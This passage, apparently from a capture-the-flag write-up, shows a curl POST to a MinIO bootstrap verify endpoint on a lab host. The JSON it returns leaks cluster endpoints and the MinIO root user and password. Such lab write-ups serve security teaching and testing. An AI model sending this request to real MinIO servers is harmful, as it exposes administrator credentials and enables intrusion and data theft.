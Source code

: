 ```
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
oxdf@hacky$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify -s | jq .
{
  "MinioEndpoints": [
    {
      "Legacy": false,
      "SetCount": 1,
      "DrivesPerSet": 4,
      "Endpoints": [
        {
          "Scheme": "http",
          "Opaque": "",
          "User": null,
          "Host": "minio-node1:9000",
          "Path": "/data1",
          "RawPath": "",
          "OmitHost": false,
          "ForceQuery": false,
          "RawQuery": "",
          "Fragment": "",
          "RawFragment": "",
          "IsLocal": false
        },
        {
          "Scheme": "http",
          "Opaque": "",
          "User": null,
          "Host": "minio-node2:9000",
          "Path": "/data1",
          "RawPath": "",
          "OmitHost": false,
          "ForceQuery": false,
          "RawQuery": "",
          "Fragment": "",
          "RawFragment": "",
          "IsLocal": true
        },
        {
          "Scheme": "http",
          "Opaque": "",
          "User": null,
          "Host": "minio-node1:9000",
          "Path": "/data2",
          "RawPath": "",
          "OmitHost": false,
          "ForceQuery": false,
          "RawQuery": "",
          "Fragment": "",
          "RawFragment": "",
```